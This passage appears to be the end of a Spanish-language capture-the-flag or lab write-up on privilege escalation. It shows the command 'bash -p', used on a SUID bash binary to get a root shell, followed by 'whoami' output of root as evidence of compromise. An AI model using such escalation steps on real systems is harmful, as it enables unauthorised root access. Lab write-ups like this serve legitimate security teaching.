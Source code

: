 Ahora solo migramos a **root**
```bash
# Comando para escalar al usuario: ( root )
bash -p
```

---

## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
whoami
root
```

---